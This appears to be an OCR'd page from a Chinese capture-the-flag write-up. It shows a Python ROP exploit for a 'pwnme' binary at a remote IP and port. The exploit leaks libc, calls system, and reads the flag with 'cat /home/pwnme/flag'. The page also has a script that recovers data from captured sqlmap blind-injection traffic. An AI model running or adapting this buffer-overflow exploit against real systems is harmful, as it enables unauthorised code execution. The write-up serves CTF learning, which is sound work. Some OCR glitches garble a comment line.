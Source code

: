 ```
target = ('202.120.7.69', 34343)

poprdi = 0x400663
poprsi = 0x400661 # pop rsi; pop r15; ret ret = 0x400664
write_got = 0x601018
write_plt = 0x400480
main = 0x4005bd
junk = 'J' * 8
data = 0x601040
read_plt = 0x4004a0

io = zio(target, print_read=False, print_write=False, timeout=100000)

elf = DynELF('./pwnme', leak_write) 
system = elf.lookup('system') 
log.success('system: %s' % hex(system))

io.read_until('Pwn me if you can:\n')
payload = 'A' * 24 + l64(poprdi) + l64(0) + l64(poprsi) + l64(data) + junk + l64(read_plt) + l64(poprdi) + l64(data) + l64(ret) * 5 + l64(system)
io.write(payload.ljust(0x100, 'A'))
io.write('cat /home/pwnme/flag\0'.ljust(0x100, 'A'))
io.interact()

```

### ￼￼￼SQLMAP Misc 100

题目提供了 sqlmap 运行时的流量,按照 SQL 语句及执行结果推断每个字节即可。

```
￼￼￼￼￼#!/usr/bin/env python2

import sys, re

def remove(idx, sign, value):
    sub = xrange(0, value) if sign == '<' else xrange(value + 1, 256) 
    for i in sub:
      if i in ans[idx]: 
          ans[idx].remove(i)

f = open(sys.argv[1]).read().strip().split('\n') 
f = map(lambda x: x.split(':', 2)[1:], f)
ans = [set(xrange(256)) for _ in xrange(40)]

for x in f:
    sql = x[0]
    mo = re.search(r'LIMIT 0,1\),(\d+),1\)\)([><])(\d+)', sql) 
    if mo:
        idx, sign, v = mo.groups() 
        idx = int(idx)
        v = int(v)
        #print idx, sign, v
        if len(x[1].strip()) == 0:
            remove(idx, sign, v) 
        else:
            if sign == '<':
                remove(idx, '>', v - 1)
            else:
                remove(idx, '<', v + 1)

for i in xrange(len(ans)): 
    if len(ans[i]) == 1:
        sys.stdout.write(chr(list(ans[i])[0]))
```